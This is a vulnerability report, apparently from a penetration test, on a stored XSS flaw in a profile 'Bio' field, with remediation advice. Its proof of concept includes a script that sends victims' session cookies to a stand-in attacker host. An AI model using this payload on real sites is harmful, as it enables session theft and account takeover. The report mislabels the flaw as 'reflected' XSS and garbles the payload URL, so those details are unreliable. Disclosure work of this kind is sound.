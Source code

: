 ```yaml
---
linked_github_issue: DG11-01
title: Possibility of XSS attack leading to account takeover
status: In Progress
severity: High
issue_link: https://github.com/DefGuard/defguard/issues/1516
---
```


### Technical Details

The vulnerability lies in the user profile page. Specifically, the "Bio" field does not properly sanitize user input. When a user enters malicious JavaScript code (e.g., `<script>alert('XSS');</script>`) into this field, the script is executed by the browser of any user who views that profile page. This is a classic **reflected Cross-Site Scripting (XSS)** vulnerability.

A potential attacker could leverage this to:
* **Steal session cookies:** By injecting a script that sends the user's cookie to an external server, an attacker can hijack the session and gain unauthorized access to the account.
* **Perform actions on behalf of the user:** An attacker can force the victim's browser to send requests to the server, for example, changing the user's password or email address without their consent.

The issue was identified during a routine penetration test.

---

### Proof of Concept

1.  Log in to the application.
2.  Navigate to the user profile settings.
3.  In the "Bio" field, insert the following payload:
    ```html
    <script>
      fetch('[https://attacker.com/log?cookie=](https://attacker.com/log?cookie=)' + btoa(document.cookie));
    </script>
    ```
4.  Save the profile.
5.  When an administrator or any other user views the modified profile, their browser will execute the script, sending their session cookie to the attacker's server.

---

### Recommendations

* **Sanitize user input:** Implement proper server-side input sanitization for all user-facing fields, especially for rich-text areas like the "Bio" field. Use a library that filters out or encodes dangerous HTML tags and characters.
* **Implement a Content Security Policy (CSP):** Configure a robust CSP to mitigate the impact of any potential XSS attacks by restricting which scripts are allowed to be executed on the page.
* **Encode output:** Ensure that any user-generated content displayed on the page is properly HTML-encoded to prevent the browser from interpreting it as executable code.

